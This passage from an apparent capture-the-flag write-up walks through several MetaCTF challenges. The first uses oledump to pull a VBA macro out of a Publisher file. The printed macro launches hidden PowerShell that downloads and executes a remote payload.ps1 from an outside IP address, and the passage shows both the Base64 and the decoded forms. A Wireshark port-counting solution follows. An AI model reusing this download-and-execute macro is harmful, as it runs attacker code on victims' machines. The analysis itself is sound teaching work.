 According to that post about `oledump`, the `M` on line 14 indicates that a VBA macro was detected. If we run `oledump` with the option `-sf 14`, we can dig into the 14th file.
```sh
> py oledump_V0_0_54/oledump.py Publish3r/Publish3r.pub
...
Dim RetVal
RetVal = Shell("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec Bypass -windowstyle hidden -enc SQBFAHgAIAAoACgAbgBFAFcALQBPAEIASgBlAEMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACgAIgBoAHQAdABwADoALwAvADEAMwAuADMANwAuADEAMAAuADEAMAA6ADQANAA0ADMALwBkAG8AYwAvAHAAYQB5AGwAbwBhAGQALgBwAHMAMQAiACkAKQApAA==", 1)
```

Taking the long string after `-enc`, it looks like a Base64 string again with the characteristic `==`. Running it through a [Base64 decoder](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)), we get:
```sh
I.E.x. .(.(.n.E.W.-.O.B.J.e.C.t. .n.e.t...w.e.b.c.l.i.e.n.t.)...d.o.w.n.l.o.a.d.s.t.r.i.n.g.(.(.".h.t.t.p.:././.1.3...3.7...1.0...1.0.:.4.4.4.3./.d.o.c./.p.a.y.l.o.a.d...p.s.1.".).).).
```

Once we remove the periods, we'll have the flag.

**Flag**: `MetaCTF{http://13.37.10.10:4443/doc/payload.ps1}`  
**Tools**: [`oledump`](https://blog.didierstevens.com/programs/oledump-py/), [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true))

## Open Thermal Exhaust
> Our TCP connect Nmap scan found some open ports it seems. We may only have a pcap of the traffic, but I'm sure that won't be a problem! Can you tell us which ones they are? The flag will be the sum of the open ports. For example, if ports 25 and 110 were open, the answer would be MetaCTF{135}.

Opening the pcap file in Wireshark, if we apply the filter `(tcp.flags.ack == 1) && (tcp.flags.syn == 1)`, the results will be ports where the server actually responded to the connection request - meaning that they're open.

Summing the port numbers together, we get: 
```python
80 + 443 + 23 + 21 + 53 + 22 + 3128 = 3770
```

**Flag**: `MetaCTF{3770}`  
**Tools**: [Wireshark](https://www.wireshark.org/)  
**Further reading**: [TCP 3-way handshake](https://en.wikipedia.org/wiki/Transmission_Control_Protocol#Connection_establishment)

# Reverse Engineering
## [REDACTED]
> The CEO of Cyber Corp has strangely disappeared over the weekend. After looking more into his disappearance Local Police Department thinks he might have gotten caught up into some illicit activities.
> The IT Department just conducted a search through his company-provided laptop and found an old memo containing a One Time Password to log into his e-mail. However it seems as if someone has redacted the code, can you recover it for us?


[^bb0]: *Post-CTF*: I tested it out after, and the exact number was 64 characters. 64-48 = 16. I don't actually know why 64. Something about stack frames?
[^bb1]: I added the `win` address at the end, but I actually don't know whether this is necessary. I also don't know why it's 56 chars specifically!
[^zip]: Which didn't seem sketchy at **all**.
[^pow]: When we bit-shift 1 to the left by `i`, we pad the right with `i` 0s. For example, `1 << 5` would create the binary string `100000`, which is the number 2^5 or 32.